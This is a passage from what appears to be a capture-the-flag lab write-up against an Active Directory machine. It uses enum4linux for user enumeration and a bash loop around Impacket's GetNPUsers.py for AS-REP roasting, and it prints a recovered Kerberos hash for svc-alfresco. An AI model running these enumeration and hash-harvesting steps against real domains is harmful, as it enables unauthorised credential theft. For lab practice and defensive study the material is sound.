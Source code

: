 <hr width="300" size="10">




<h3>Enum4linux</h3>

This returns a huge wealth of information; Users, local groups, domain groups.



```
enum4linux 10.10.10.161
```


I put the usernames in users.txt
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
```


<hr width="300" size="10">



<h3>AS-REP Roasting</h3>

I can use Impacket's python scripts to enumerate these users further, and retrieve password information.

```
cat enumusers.py 


#!/bin/bash
# use GetNPUsers.py to enumerate users

for user in $(cat users.txt);do
python GetNPUsers.py htb.local/$user -k -no-pass -request -format john -outputfile hashes.txt
done
```

The script works and recovers svc-alfresco's password hash.

```

Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$svc-alfresco@HTB.LOCAL:860b4df7cad71563d1a2f0f394817caf$7d6f8cc7604eb3e4d04c8e4741f58e10fb61ee8767d5f519c5a8a91a09d51e6906d444198fd4e317186c9e7e2bfc6fede72a222788713bb53ed48154ec8d915d9ff188c1452010933991b04f2745b995b84abdd7d197d403a511a84472f309fd38a5cde786bb097c09fd6691e47706944aa47634a2fc73509e08b1553f724230644a5bc37f6dd5a6bbabc7645a902ff66d27f82c3b7410688bc94247519c3d9fe166a136685d060cd7cd8fcb311de8b60598acdcf4d709ddd0a31c21add63263fe5ddbdf77602b2de8f1d39cd2ca4eb7fe08a110dbd26c2ba96b9eeb5c56ede9ce49188eadbd
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
```